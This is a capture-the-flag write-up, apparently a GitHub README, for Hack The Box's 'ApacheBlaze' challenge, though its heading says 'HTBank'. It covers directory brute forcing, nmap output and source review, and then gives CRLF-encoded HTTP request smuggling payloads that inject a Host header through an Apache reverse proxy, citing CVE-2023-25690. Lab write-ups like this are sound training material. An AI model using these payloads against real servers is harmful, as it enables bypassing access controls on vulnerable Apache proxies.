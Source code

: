 # Solve HTBank 
#### https://app.hackthebox.com/challenges/ApacheBlaze

![alt text](images/image.png)

##### By directory brute force with dirsearech
`dirsearch -u http://94.237.58.211:30916/ -x 404,403` 
[05:53:25] 200 -  360B  - /assets/                                          
[05:53:25] 301 -  242B  - /assets  ->  http://94.237.58.211:30916/assets/   
[05:53:27] 200 -    1KB - /cgi-bin/test-cgi                                 
[05:53:27] 200 -  820B  - /cgi-bin/printenv

#### /assets page
![alt text](images/image-1.png)
#### /cgi-bin/test-cgi page
![alt text](images/image-2.png)
#### /cgi-bin/printenv page
![alt text](images/image-3.png)

##### nmap scan 

```
22/tcp    open  ssh         OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 91:fb:f2:1e:09:9a:a3:10:c7:f3:18:3f:18:9d:4a:76 (RSA)
|   256 15:53:99:6a:83:03:96:0b:b7:82:44:7d:34:f0:7d:69 (ECDSA)
|_  256 46:2f:3e:5e:ee:65:be:17:7c:3b:51:02:5c:51:83:06 (ED25519)

30916/tcp open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache
|_http-title: ApacheBlaze
```
## Review the sorce code

### Analyze fetchAPI.js
*you can find the file in [fetchAPI.js](src/challenge/frontend/src/assets/js/fetchAPI.js)*

The **fetchAPI.js** code can be broken down as follows:

1. The code waits for the document to be ready using `$(document).ready(function() {...})`.

2. It attaches a click event handler to links (`<a>`) inside elements with the class "game" using `$(".game a").click(function(event) {...})`.

3. Inside the click event handler:
   - `event.preventDefault()` **prevents the default behavior** of the clicked link, which is typically navigating to a new page.

   - `var gameName = $(this).attr("div")` retrieves the value of the "div" attribute of the clicked link. 
     - `$(this)` refers to the clicked link.
     - `.attr("div")` is used to get the value of the "div" attribute.

4. An AJAX request is made to the "/api/games/" endpoint with the obtained `gameName` using `$.ajax({...})`.

5. The `success` callback function handles a successful response by updating the content of the element with ID "gameplayresults" with the received message.

6. The `error` callback function handles an error in fetching API data by updating the content of the same element with an error message.

### Analyze app.py
*you can find the file in [app.py](src/challenge/backend/src/app.py)*

### Notice that we find a suspicious function in the backend code

``` python
elif game == 'click_topia':
        if request.headers.get('X-Forwarded-Host') == 'dev.apacheblaze.local':
            return jsonify({
                'message': f'{app.config["FLAG"]}'
            }), 200

```
The code checks if the user choose `click_topia` Game and the request has `X-Forwarded-Host` header with value `dev.apacheblaze.local` it return the flag as a Json.

#### HTTP header manipulation with `X-Forwarded-Host`
![alt text](images/image-4.png)
We got 408 Request Timeout.

##### Try POST request
![alt text](images/image-5.png)
We got 408 Request Timeout.
*Note from code `@app.route('/', methods=['GET'])` ONLY `GET` method is allowed*

### Analyze httpd.conf (This Apache HTTP Server configuration)
*you can find the file in [httpd.conf](src/conf/httpd.conf)*

This configuration sets up a reverse proxy on port `1337`, forwarding requests to a backend server on port `8080`, which is load-balanced across two backend servers (`8081` and `8082`). The rewrite rule in the first virtual host handles requests to `/api/games/` by forwarding them to the backend server with the appropriate query parameter. The load balancer in the second virtual host distributes requests among the specified backend servers.


### Mod Proxy module
`mod_proxy` is an Apache module that provides support for proxying requests. It enables the Apache HTTP Server to act as a **gateway** or **reverse proxy** (a reverse proxy manages incoming requests from clients and forwards them to backend servers). This module is often used to forward requests from Apache to another web server, application server, or backend server.

## Try to Http request smuggling via header injection
### Normal request
```
GET /api/games/click_topia HTTP/1.1
Host: 94.237.54.48:55239
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://94.237.54.48:55239/

```
we can hide a second request in the first we sent to the target (with the `\r\n\r` splitting method). That enable us to send the request directly from the **reverse proxy**.
### Try to inject with X-Forwarded-Host
```
GET /api/games/click_topia HTTP/1.1
X-Forwarded-Host: dev.apacheblaze.local


GET / HTTP/1.1
Host: 94.237.54.48:55239
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://94.237.54.48:55239/
```
### Encoded as 
```
GET /api/games/click_topia%20HTTP/1.1%0d%0aX-Forwarded-Host:%20dev.apacheblaze.local%0d%0a%0d%0aGET%20/ HTTP/1.1
Host: 94.237.54.48:55239
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://94.237.54.48:55239/
```
Note: `%0A` for newline `\n` and `%0D` for carriage return `\r`
So `\r\n ` ->  `%0d%0a` `\r\n\r`  ->  `%0d%0a%0d`

![alt text](images/image-6.png)
The server Can't understand X-Forwarded-Host header 
### Try to inject with Host

```
GET /api/games/click_topia HTTP/1.1
Host: dev.apacheblaze.local


GET / HTTP/1.1
Host: 94.237.54.48:55239
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://94.237.54.48:55239/
```
### Encoded as 
```
GET /api/games/click_topia%20HTTP/1.1%0d%0aHost:%20dev.apacheblaze.local%0d%0a%0d%0aGET%20/ HTTP/1.1
Host: 94.237.54.48:55239
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://94.237.54.48:55239/
```

![alt text](images/image-7.png)
### Resorces
- [HTTP Request Smuggling attack ](https://portswigger.net/web-security/request-smuggling)
- [Http request smuggling via header injection](https://github.com/dhmosfunk/CVE-2023-25690-POC/tree/main#internal-http-request-smuggling-via-header-injection)
- [CVE 2023 25690 POC](https://github.com/dhmosfunk/CVE-2023-25690-POC)
- [URL encoding of newline](https://stackoverflow.com/questions/3871729/transmitting-newline-character-n)


>Find More on ==> github.com/MedhatHassan
